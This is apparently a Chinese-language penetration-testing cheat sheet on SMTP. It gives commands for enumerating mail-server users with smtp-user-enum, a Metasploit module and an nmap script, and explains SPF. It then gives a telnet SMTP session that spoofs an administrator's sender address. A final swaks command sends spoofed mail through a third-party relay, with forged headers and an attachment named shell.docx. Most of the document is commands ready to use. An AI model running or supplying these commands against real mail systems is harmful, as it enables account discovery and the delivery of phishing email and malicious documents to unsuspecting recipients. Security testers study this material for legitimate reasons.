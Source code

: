 
- smtp-user-enum - kali 自带
    ```bash
    smtp-user-enum -M VRFY -u root -t xxx.xxx.xxx.xxx
    smtp-user-enum -M RCPT -u bin -t xxx.xxx.xxx.xxx
    smtp-user-enum -M EXPN -u bin -t xxx.xxx.xxx.xxx
    ```

- MSF 模块
    ```bash
    use auxiliary/scanner/smtp/smtp_enum
    set rhosts xxx.xxx.xxx.xxx
    run
    ```

- smtp-enum-users - nmap 脚本
    ```bash
    nmap -p 25 --script smtp-enum-users.nse xxx.xxx.xxx.xxx
    ```

**邮件伪造**
- 相关文章
    - [关于伪造邮件的简单研究](https://hex.moe/p/4878b295/)

- SPF邮件伪造

    SPF 是 Sender PolicyFramework 的缩写，一种以 IP 地址认证电子邮件发件人身份的技术。接收邮件方会首先检查域名的 SPF 记录，来确定发件人的 IP 地址是否被包含在 SPF 记录里面，如果在，就认为是一封正确的邮件，否则会认为是一封伪造的邮件进行退回。SPF 可以防止别人伪造你来发邮件，是为了防范垃圾邮件而提出来的一种 DNS 记录，它是一种 TXT 类型的记录。

    由于 SMTP 邮件服务商互相发送邮件是不需要认证的，邮件伪造也是利用这个特性来实现伪造任意发件人。

- 简单方法

    ```
    telnet xxx.xxx.xxx.xxx 25
    HELO xxxx.com   # 向邮件服务器提供连接的域名,也就是邮件将从哪台服务器发来.
    MAIL FROM:admin@xxxx.com  # 伪造管理员身份来发邮件
    RCPT TO:admin@xxxxx.com # 验证邮件地址是否存在.如果查询的是一个真实的 Email 地址,邮件服务器就会返回250状态码.验证邮箱存在的话,还可以给这个接受者邮箱发送邮件.
    DATA    # 使用DATA命令来伪造邮箱内容,客户端告诉服务器自己准备发送邮件正文
    354 go ahead, end data with CRLF.CRLF   # 服务器返回354,表示自己已经作好接受邮件的准备
    "这是一个邮件伪造测试"  # 用英文状态的双引号来修饰正文,正文结束后,发送结束符.表明正文的结束.
    .
    QUIT
    ```

- **swaks**

    Swaks 的全称是 Swiss Army Knife SMTP(SMTP 界的瑞士军刀),用于测试 SMTP 协议的各种操作.

    kali 自带
    ```bash
    swaks
    ```

    配合 https://support.smtp2go.com/hc/en-gb
    ```bash
    swaks --to 目标@qq.com --from info@smtp2go.com\
    --header-X-Mailer SMTP  --ehlo root@163.com --body 'test'\
    --server mail.smtp2go.com -p 2525 -au 账号 -ap 密码 \
    --attach /shell.docx --header "Subject:test" \
    --h-From: 'test<root@163.com>'
    ```

---